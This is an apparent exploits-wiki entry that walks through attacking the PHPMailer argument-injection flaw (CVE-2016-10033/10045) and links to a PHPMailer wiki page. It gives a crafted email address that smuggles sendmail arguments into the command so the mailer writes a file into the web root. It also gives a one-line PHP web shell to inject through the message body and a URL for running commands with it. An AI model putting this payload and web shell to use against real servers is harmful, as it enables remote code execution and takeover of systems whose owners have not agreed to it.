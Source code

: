 The exploitation of this issue is done in two steps:

    Create a file with a PHP extension in the web root of the server.
    Access the newly created file.

To create the file, you can inject some extra-arguments to the command as part of the email address:

"attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php  root"@127.0.0.1

This will allow us to create the file /var/www/shell.php. To get code execution, we also need to inject a web shell in the email's body:

<?php system($_GET['c']);?>

Finally, you need to access your web shell to execute commands using the 'c' parameter.

http://someURL.com/shell.php?c=/


---
exploits wiki
https://github.com/PHPMailer/PHPMailer/wiki/About-the-CVE-2016-10033-and-CVE-2016-10045-vulnerabilities